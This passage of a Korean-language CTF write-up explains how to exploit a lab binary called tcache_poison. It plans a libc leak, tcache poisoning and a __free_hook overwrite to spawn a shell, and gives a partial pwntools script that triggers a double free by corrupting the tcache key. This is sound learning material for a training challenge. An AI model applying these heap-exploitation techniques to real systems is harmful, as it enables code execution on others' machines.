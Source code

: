 <br>

<img width="1309" height="682" alt="image (5)" src="https://github.com/user-attachments/assets/62f03c27-2495-4752-a2a4-0e851a37e1f1" />

free 상태일 때 까지 `ni` 로 넘어가주면서,  
tcache 들어갔으면 $e 걸어주고 key 확인해준다.   

결과를 보니 modify로 \x00로 key를 덮어버리면 key 값이 조작 가능하다는 것을 알았다.    

이제 libc base 주소를 알아낸 뒤 _free_hook 을 조작해서 free 호출 시 빈쉘이 실행되게 만들어보자.  
정리하자면 hook overwrite + libc leak + tcache poisoning 으로 정리가 된다.  

<br>

일단 여기까지 익스플로잇 코드를 작성해보자.   
<br>

**익스플로잇 코드 (중간)**

```python
from pwn import *

p = process('./tcache_poison', env={"LD_PRELOAD":"./libc-2.27.so"})
e = ELF('./tcache_poison')
libc = ELF('./libc-2.27.so')



def alloc(size, content):
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Content: ', content)

def free():
    p.sendlineafter(b'Edit\n', b'2')

def print3():
    p.sendlineafter(b'Edit\n', b'3')

def edit(content):
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'chunk: ', content)



alloc(48, b'AAAA')
free()
edit(b'A'*8 + b'\x00')
free()

p.interactive()
```

이렇게 double free bug 를 일으킬 수 있다.    
